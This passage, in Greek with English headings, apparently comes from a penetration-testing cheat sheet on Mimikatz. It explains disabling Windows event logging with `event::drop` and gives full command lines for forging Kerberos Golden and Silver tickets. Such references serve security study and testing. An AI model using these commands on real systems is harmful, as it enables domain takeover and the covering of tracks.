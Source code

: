 #### Clearing Event Logs

- **Command**: Αυτή η ενέργεια στοχεύει στη διαγραφή των καταγραφών συμβάντων, καθιστώντας πιο δύσκολη την παρακολούθηση κακόβουλων δραστηριοτήτων.
- Το Mimikatz δεν παρέχει μια άμεση εντολή στην τυπική του τεκμηρίωση για την εκκαθάριση των καταγραφών συμβάντων απευθείας μέσω της γραμμής εντολών του. Ωστόσο, η παραχάραξη των καταγραφών συμβάντων συνήθως περιλαμβάνει τη χρήση εργαλείων συστήματος ή σεναρίων εκτός του Mimikatz για την εκκαθάριση συγκεκριμένων καταγραφών (π.χ., χρησιμοποιώντας PowerShell ή Windows Event Viewer).

#### Experimental Feature: Patching the Event Service

- **Command**: `event::drop`
- Αυτή η πειραματική εντολή έχει σχεδιαστεί για να τροποποιεί τη συμπεριφορά της Υπηρεσίας Καταγραφής Συμβάντων, αποτρέποντας αποτελεσματικά την καταγραφή νέων συμβάντων.
- Example: `mimikatz "privilege::debug" "event::drop" exit`

- Η εντολή `privilege::debug` διασφαλίζει ότι το Mimikatz λειτουργεί με τα απαραίτητα δικαιώματα για να τροποποιήσει τις υπηρεσίες του συστήματος.
- Η εντολή `event::drop` στη συνέχεια επιδιορθώνει την υπηρεσία Καταγραφής Συμβάντων.

### Kerberos Ticket Attacks

### Golden Ticket Creation

Ένα Golden Ticket επιτρέπει την πρόσβαση σε επίπεδο τομέα μέσω της μίμησης. Κύρια εντολή και παράμετροι:

- Command: `kerberos::golden`
- Parameters:
- `/domain`: Το όνομα του τομέα.
- `/sid`: Ο Αναγνωριστικός Αριθμός Ασφαλείας (SID) του τομέα.
- `/user`: Το όνομα χρήστη που θα μιμηθεί.
- `/krbtgt`: Ο NTLM hash του λογαριασμού υπηρεσίας KDC του τομέα.
- `/ptt`: Εισάγει απευθείας το εισιτήριο στη μνήμη.
- `/ticket`: Αποθηκεύει το εισιτήριο για μελλοντική χρήση.

Example:
```bash
mimikatz "kerberos::golden /user:admin /domain:example.com /sid:S-1-5-21-123456789-123456789-123456789 /krbtgt:ntlmhash /ptt" exit
```
### Δημιουργία Silver Ticket

Τα Silver Tickets παρέχουν πρόσβαση σε συγκεκριμένες υπηρεσίες. Κύρια εντολή και παράμετροι:

- Εντολή: Παρόμοια με το Golden Ticket αλλά στοχεύει σε συγκεκριμένες υπηρεσίες.
- Παράμετροι:
- `/service`: Η υπηρεσία που στοχεύει (π.χ., cifs, http).
- Άλλες παράμετροι παρόμοιες με το Golden Ticket.

Παράδειγμα:
```bash
mimikatz "kerberos::golden /user:user /domain:example.com /sid:S-1-5-21-123456789-123456789-123456789 /target:service.example.com /service:cifs /rc4:ntlmhash /ptt" exit
```
### Δημιουργία Εισιτηρίου Εμπιστοσύνης
